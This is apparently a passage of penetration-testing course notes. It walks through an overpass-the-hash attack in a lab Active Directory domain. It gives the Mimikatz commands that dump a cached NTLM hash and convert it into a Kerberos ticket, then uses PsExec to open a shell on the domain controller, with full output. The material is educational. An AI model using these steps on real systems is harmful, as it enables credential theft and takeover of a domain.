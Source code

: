 With _overpass the hash_, we can "over" abuse a NTLM user hash to gain a full Kerberos Ticket Granting Ticket (TGT) or service ticket, which grants us access to another machine or service as that user.

To demonstrate this, let's assume we have compromised a workstation (or server) that the Jeff_Admin user has authenticated to, and that machine is now caching their credentials (and therefore their NTLM password hash).

To simulate this cached credential, we will log in to the Windows 10 machine as the Offsec user and run a process as Jeff_Admin, which prompts authentication.

The simplest way to do this is to right-click the Notepad icon on the taskbar, and shift-right click the Notepad icon on the popup, yielding the options in Figure 5.

![[Pasted image 20221114124239.png]]

From here, we can select 'Run as different user' and enter "jeff_admin" as the username along with the associated password, which will launch Notepad in the context of that user. After successful authentication, Jeff_Admin's credentials will be cached on this machine.

We can validate this with the sekurlsa::logonpasswords command from mimikatz, which dumps the cached password hashes.

```
mimikatz # sekurlsa::logonpasswords

Authentication Id : 0 ; 2815531 (00000000:002af62b)
Session           : Interactive from 0
User Name         : jeff_admin
Domain            : CORP
Logon Server      : DC01
Logon Time        : 12/02/2018 09.18.57
SID               : S-1-5-21-1602875587-2787523311-2599479668-1105
        msv :
         [00000003] Primary
         \* Username : jeff_admin
         \* Domain   : CORP
         \* NTLM     : e2b475c11da2a0748290d87aa966c327
         \* SHA1     : 8c77f430e4ab8acb10ead387d64011c76400d26e
         \* DPAPI    : 2918ad3d4607728e28ccbd76eab494b9
        tspkg :
        wdigest :
         \* Username : jeff_admin
         \* Domain   : CORP
         \* Password : (null)
        kerberos :
         \* Username : jeff_admin
         \* Domain   : CORP.COM
         \* Password : (null)
...
```

This output shows Jeff_Admin's cached credentials, including the NTLM hash, which we will leverage to overpass the hash.

The essence of the overpass the hash technique is to turn the NTLM hash into a Kerberos ticket and avoid the use of NTLM authentication. A simple way to do this is again with the sekurlsa::pth command from Mimikatz.

The command requires a few arguments and creates a new PowerShell process in the context of the Jeff_Admin user. This new PowerShell prompt will allow us to obtain Kerberos tickets without performing NTLM authentication over the network, making this attack different than a traditional pass-the-hash.

As the first argument, we specify /user: and /domain:, setting them to jeff_admin and corp.com respectively. We'll specify the NTLM hash with /ntlm: and finally use /run: to specify the process to create (in this case PowerShell).

```
mimikatz # sekurlsa::pth /user:jeff_admin /domain:corp.com /ntlm:e2b475c11da2a0748290d87aa966c327 /run:PowerShell.exe
user    : jeff_admin
domain  : corp.com
program : cmd.exe
impers. : no
NTLM    : e2b475c11da2a0748290d87aa966c327
  |  PID  4832
  |  TID  2268
  |  LSA Process is now R/W
  |  LUID 0 ; 1197687 (00000000:00124677)
  \_ msv1_0   - data copy @ 040E5614 : OK !
  \_ kerberos - data copy @ 040E5438
   \_ aes256_hmac       -> null
   \_ aes128_hmac       -> null
   \_ rc4_hmac_nt       OK
   \_ rc4_hmac_old      OK
   \_ rc4_md4           OK
   \_ rc4_hmac_nt_exp   OK
   \_ rc4_hmac_old_exp  OK
   \_ *Password replace -> null
```

At this point, we have a new PowerShell session that allows us to execute commands as Jeff_Admin.

Let's list the cached Kerberos tickets with klist:

```
PS C:\Windows\system32> klist

Current LogonId is 0:0x1583ae

Cached Tickets: (0)
```

No Kerberos tickets have been cached, but this is expected since Jeff_Admin has not performed an interactive login. However, let's generate a TGT by authenticating to a network share on the domain controller with net use:

```
PS C:\Windows\system32> net use \\dc01
The command completed successfully.

PS C:\Windows\system32> klist

Current LogonId is 0:0x1583ae

Cached Tickets: (3)

#0> Client: jeff_admin @ CORP.COM
    Server: krbtgt/CORP.COM @ CORP.COM
    KerbTicket Encryption Type: AES-256-CTS-HMAC-SHA1-96
    Ticket Flags 0x60a10000 -> forwardable forwarded renewable pre_authent name_canoni
    Start Time: 2/12/2018 13:59:40 (local)
    End Time:   2/12/2018 23:59:40 (local)
    Renew Time: 2/19/2018 13:59:40 (local)
    Session Key Type: AES-256-CTS-HMAC-SHA1-96
    Cache Flags: 0x2 -> DELEGATION
    Kdc Called: DC01.corp.com

#1> Client: jeff_admin @ CORP.COM
    Server: krbtgt/CORP.COM @ CORP.COM
    KerbTicket Encryption Type: AES-256-CTS-HMAC-SHA1-96
    Ticket Flags 0x40e10000 -> forwardable renewable initial pre_authent name_canonica
    Start Time: 2/12/2018 13:59:40 (local)
    End Time:   2/12/2018 23:59:40 (local)
    Renew Time: 2/19/2018 13:59:40 (local)
    Session Key Type: AES-256-CTS-HMAC-SHA1-96
    Cache Flags: 0x1 -> PRIMARY
    Kdc Called: DC01.corp.com

#2> Client: jeff_admin @ CORP.COM
    Server: cifs/dc01 @ CORP.COM
    KerbTicket Encryption Type: AES-256-CTS-HMAC-SHA1-96
    Ticket Flags 0x40a50000 -> forwardable renewable pre_authent ok_as_delegate name_c
    Start Time: 2/12/2018 13:59:40 (local)
    End Time:   2/12/2018 23:59:40 (local)
    Renew Time: 2/19/2018 13:59:40 (local)
    Session Key Type: AES-256-CTS-HMAC-SHA1-96
    Cache Flags: 0
    Kdc Called: DC01.corp.com
```

The output indicates that the net use command was successful. We then use the klist command to list the newly requested Kerberos tickets, these include a TGT and a TGS for the _CIFS_ service.

We used "net use" arbitrarily in this example but we could have used any command that requires domain permissions and would subsequently create a TGS.

We have now converted our NTLM hash into a Kerberos TGT, allowing us to use any tools that rely on Kerberos authentication (as opposed to NTLM) such as the official PsExec application from Microsoft.

PsExec can run a command remotely but does not accept password hashes. Since we have generated Kerberos tickets and operate in the context of Jeff_Admin in the PowerShell session, we may reuse the TGT to obtain code execution on the domain controller.

Let's try that now, running [./PsExec.exe](https://docs.microsoft.com/en-us/sysinternals/downloads/psexec) to launch cmd.exe remotely on the \\dc01 machine as Jeff_Admin:

```
PS C:\Tools\active_directory> .\PsExec.exe \\dc01 cmd.exe

PsExec v2.2 - Execute processes remotely
Copyright (C) 2001-2016 Mark Russinovich
Sysinternals - www.sysinternals.com

C:\Windows\system32> ipconfig

Windows IP Configuration

Ethernet adapter Ethernet0:

   Connection-specific DNS Suffix  . :
   Link-local IPv6 Address . . . . . : fe80::7959:aaad:eec:3969%2
   IPv4 Address. . . . . . . . . . . : 192.168.1.110
   Subnet Mask . . . . . . . . . . . : 255.255.255.0
   Default Gateway . . . . . . . . . : 192.168.1.1
...

C:\Windows\system32> whoami
corp\jeff_admin
```

As evidenced by the output, we have successfully reused the Kerberos TGT to launch a command shell on the domain controller.

Excellent! We have succeeded in upgrading a cached NTLM password hash to a Kerberos TGT and leveraged that to gain remote code execution.